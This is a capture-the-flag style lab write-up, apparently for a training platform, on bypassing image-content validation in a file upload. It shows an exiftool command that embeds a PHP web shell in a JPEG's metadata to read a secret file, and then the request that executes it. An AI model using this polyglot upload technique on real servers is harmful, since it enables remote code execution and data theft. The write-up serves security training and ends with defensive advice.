







# Lab 6 — Remote Code Execution via Polyglot Web Shell Upload

> [← Back to File Upload Vulnerabilities](../README.md)

---

## 🎯 Objective
The server validates that uploaded files are genuine images (checks file content/magic bytes). Bypass it by creating a **polyglot file** — a real JPEG image that also contains a PHP web shell — which passes the image check but executes as PHP.

---

## 🪜 Steps

### Step 1 — Login
Credentials: `wiener:peter`



---

### Step 2 — Direct PHP upload blocked
Server response: `Error: file is not a valid image`

The server is checking actual file content — not just the extension or Content-Type.



---

### Step 3 — Create a polyglot file
Use `exiftool` to inject PHP code into the metadata of a real JPEG image:
```bash
exiftool -Comment="<?php echo file_get_contents('/home/carlos/secret'); ?>" image.jpg -o polyglot.php
```

The resulting file:
- Is a **valid JPEG** — passes image validation ✅
- Has `.php` extension — gets executed as PHP ✅
- Contains PHP in the EXIF comment — executes the payload ✅



---

### Step 4 — Upload the polyglot file
Upload `polyglot.php` — the server accepts it because the file content is a valid image.




---

### Step 5 — Locate and execute via Burp
In Burp HTTP history, find:
```
GET /files/avatars/polyglot.php
```
Send to Repeater → execute → Carlos's secret is returned.



---

### Step 6 — Submit solution ✅
Copy secret → Submit → Lab solved!




---

## ✅ Result
Lab solved!

---

## 💡 Key Takeaway
Checking magic bytes or running image validation is not enough — a polyglot file can be both a valid image AND executable code. The only safe solution is to process/re-encode uploaded images server-side (strip all metadata) and never serve them with an executable extension.
